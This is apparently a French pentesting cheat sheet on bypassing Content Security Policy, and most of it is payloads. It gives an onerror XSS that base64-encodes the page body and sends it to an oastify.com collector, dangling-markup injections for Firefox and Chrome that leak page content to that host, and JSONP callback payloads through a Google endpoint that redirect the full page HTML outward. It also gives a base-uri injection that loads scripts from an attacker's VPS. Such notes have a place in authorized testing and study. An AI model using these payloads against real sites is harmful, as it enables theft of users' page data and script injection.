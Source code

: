 # Contournement de CSP 

Voir notamment : 

- https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
- https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection
- https://developer.mozilla.org/fr/docs/Web/HTTP/Headers/Content-Security-Policy



## Inline code

```
<img src=x onerror="document.location=`//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?c=${btoa(document.body.innerHTML)}`">
```



## Dangling Markup

### Firefox

```
http://site.com//page?param_vuln=<link rel="prefetch" href='https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com/page?param_vuln=<meta http-equiv="refresh" content='0;URL=https://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?x=
```

### Chrome

```
http://site.com//page?param_vuln=<table background='//cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com?
http://site.com//page?param_vuln=<body background='http://cm2n64j7ys2wvkbrdz1x8epga7gy4pvdk.oastify.com/?
```



## JSONP 

Cas de figure d'un CSP autorisant des domaines de type Google, Twitter, Facebook, etc. 

Blocage de quelques fonctions comme eval() ou fetch() et nécessité de faire charger la page en entier avant l'exécution du payload.

Voir : 

- https://github.com/zigoo0/JSONBee

- https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt



```
curl -vvI

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=alert(1)></script>

http://site.com//page?param_vuln="><script src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>

http://site.com//page?param_vuln="><script defer src=https://accounts.google.com/o/oauth2/revoke?callback=window.location.replace(`https://bydmi3v6arev7jnqpydwkd1fm6sxg14q.oastify.com?x=${encodeURIComponent(document.documentElement.outerHTML)}`)></script>
```

## Directive "base-uri" manquante 

Si l'injection de balises est possible, mais que le CSP est bien configuré, mais que la directive "base-uri" n'est pas indiquée, on peut injecter une autre racine pour tous les scripts de la page qui sont spécifiés avec un chemin relatif : 

    <base href='http://[VPS]:8000/xss'>

En envoyant un lien à un autre utilisateur que l'on cible, il chargera tous les scripts de mon VPS au lieu des scripts du serveur web.


